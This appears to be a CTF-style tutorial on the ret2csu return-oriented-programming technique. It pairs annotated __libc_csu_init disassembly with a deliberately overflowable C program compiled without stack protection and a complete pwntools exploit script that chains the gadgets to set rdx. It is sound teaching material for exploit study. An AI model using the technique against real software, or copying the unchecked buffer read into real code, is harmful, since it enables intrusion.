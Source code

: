 # RET2CSU

## 0x01 Why do we need ret2csu?

In a 64-bit ELF file, the first six parameters of a function call are stored in the registers *rdi, rsi, rdx, rcx, r8, r9*. When constructing a ROP chain, it is often challenging to find the corresponding gadgets (especially for rdx). The key point of ret2csu is to use `__libc_csu_init()` to obtain two gadgets for universal parameter passing (while also leaking the address of a function).

## 0x02 __libc_csu_init()

`__libc_csu_init()` is a function used to initialize libc, and since most software relies on libc, we can consider `__libc_csu_init()` to be a fairly generic function in programs.

Let's take a look at it in a random 64-bit ELF file:

```assembly
.text:0000000000401250 loc_401250:
.text:0000000000401250                 mov     rdx, r14
.text:0000000000401253                 mov     rsi, r13
.text:0000000000401256                 mov     edi, r12d
.text:0000000000401259                 call    ds:(__frame_dummy_init_array_entry - 403E10h)[r15+rbx*8]
.text:000000000040125D                 add     rbx, 1
.text:0000000000401261                 cmp     rbp, rbx
.text:0000000000401264                 jnz     short loc_401250
.text:0000000000401266
.text:0000000000401266 loc_401266:
.text:0000000000401266                 add     rsp, 8
.text:000000000040126A                 pop     rbx
.text:000000000040126B                 pop     rbp
.text:000000000040126C                 pop     r12
.text:000000000040126E                 pop     r13
.text:0000000000401270                 pop     r14
.text:0000000000401272                 pop     r15
.text:0000000000401274                 retn
```

From this, we can see that we can set `r15+rbx*8` as the pointer to the function we want to execute, and `edi, rsi, rdx` can be used as function parameters.

Usually, we set `rbx=0, rbp=1`, which simplifies the use of gadgets significantly.

## 0x03 Practical Use

Here, I will only explore the principle of ret2csu (because I have a HGAME to play in half an hour). So, I wrote a simple program that leaks the actual address of a function directly.

Source code:

```c
#include<stdio.h>
#include<unistd.h>

int vul(int a,int b,int c){
    if(c == 233)
        printf("Big Hacker!\n");
    return 0;
}

int main(){
    char buf[30];
    int (*ptr)(int a,int b,int c) = vul;
    printf("gift: %p\n", &ptr);
    read(0,buf,0x100);
    return 0;
}
```

Compilation:

```bash
gcc -m64 -fno-stack-protector -no-pie ret2csu_64bits.c -o ret2csu_64bits
```

The idea is simple, we just need to use `__libc_csu_init()` to assign 233 to rdx. However, there are no gadgets in ROP that allow us to do this.

At this point, we need to use ret2csu.

```python
def csu(gadget1, gadget2, rbx, rbp, r12, r13, r14, r15, return_addr) -> bytes:
    """
    :param gadget1: call
    :param gadget2: pop
    :param rbx: better be 0
    :param rbp: better be 1
    :param r12: edi
    :param r13: rsi
    :param r14: rdx
    :param r15: function ptr
    :param return_addr: return addr
    :return: payload
    """
    payload = b''
    payload += p64(gadget2)
    payload += p64(0)
    payload += p64(rbx)
    payload += p64(rbp)
    payload += p64(r12)
    payload += p64(r13)
    payload += p64(r14)
    payload += p64(r15)
    payload += p64(gadget1)
    # Padding Trash
    payload += b'A'*0x38
    payload += p64(return_addr)
    return payload
```


It's worth noting that after executing gadget1, the program will go on to execute gadget2. Therefore, we need to pad `(7*0x8)` trash bytes to prevent errors.

Complete payload:

```python
from pwn import *

context.log_level = 'DEBUG'
context.arch = 'amd64'
context.os = 'linux'

sh = process('./ret2csu_64bits')
elf = ELF('./ret2csu_64bits')

sh.recvuntil(b"gift: ")
vul_addr = int(sh.recvline(), 16)
csu_gadget1_addr = 0x401250
csu_gadget2_addr = 0x401266

def csu(gadget1, gadget2, rbx, rbp, r12, r13, r14, r15, return_addr) -> bytes:
    """
    :param gadget1: call
    :param gadget2: pop
    :param rbx: better be 0
    :param rbp: better be 1
    :param r12: edi
    :param r13: rsi
    :param r14: rdx
    :param r15: function ptr
    :param return_addr: return addr
    :return: payload
    """
    payload = b''
    payload += p64(gadget2)
    payload += p64(0)
    payload += p64(rbx)
    payload += p64(rbp)
    payload += p64(r12)
    payload += p64(r13)
    payload += p64(r14)
    payload += p64(r15)
    payload += p64(gadget1)
    # Padding Trash
    payload += b'A'*0x38
    payload += p64(return_addr)
    return payload

gdb.attach(sh)
payload = b'A'*(0x20+0x08) + csu(csu_gadget1_addr, csu_gadget2_addr, 0, 1, 0, 0, 233, vul_addr, elf.sym['main'])
sh.sendline(payload)
sh.interactive()
```

<!-- AI -->
